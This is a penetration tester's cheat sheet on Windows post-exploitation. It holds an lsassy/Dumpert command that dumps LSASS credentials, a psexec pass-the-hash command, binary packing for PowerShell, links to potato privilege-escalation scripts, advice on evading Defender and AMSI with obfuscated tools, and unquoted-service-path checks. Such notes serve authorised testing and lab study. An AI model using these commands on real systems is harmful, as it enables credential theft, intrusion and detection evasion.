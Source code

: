 ## Reflective Code Loading

[https://www.petergirnus.com/blog/what-is-reflective-code-loading-t1620](https://www.petergirnus.com/blog/what-is-reflective-code-loading-t1620)

## Packing your .net binary for powershell

If you don’t want to use binary from internet (and you should don’t use pre-compiled code grabbed on github on your pentest mission), you can also pack you own binary with the following script : [EncodeAssembly.ps1](https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e)

```bash
. .\EncodeAssembly.ps1
Invoke-EncodeAssembly -binaryPath winPEAS.exe -namespace winPEAS -capture $true
```

## Potatoes

[https://github.com/IAMinZoho/OFFSEC-PowerShell/blob/main/Invoke-GodPotatoPS.ps1](https://github.com/IAMinZoho/OFFSEC-PowerShell/blob/main/Invoke-GodPotatoPS.ps1)

## Impacket

{% code overflow="wrap" fullWidth="true" %}
```bash
# lsassy, first compile DLL from https://github.com/outflanknl/Dumpert
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll
# psexec needs a custom file
psexec.py -file /x64/Release/MyPSexec.exe -hashes ':$LM_HASH' domain/user@$IP
```
{% endcode %}

## Enumeration

* We could (and should) always start with a little manual enumeration. This will be relatively quiet and gives us a baseline to work with
* Defender would definitely catch a regular copy of WinPEAS; however, it would be unlikely to catch either the `.bat` version or the obfuscated `.exe` version, both of which are released in the [PEAS repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) alongside the regular version
* Chances are that AMSI will alert Defender if we try to load any PowerShell privesc check scripts (e.g. PowerUp), so we'd ideally be looking for obfuscated versions of these if we were to use them

```bash
#Look for Unquoted Service Paths on non-default services:
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
#Check if the service is running as LocalSystem
sc qc SERVICE_NAME
#Check permissions on the directory
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
#After performing the exploit, delete our file and start the service again with sc

#To write a real Windows service (some modifications needed)
https://github.com/mattymcfatty/unquotedPoC
```
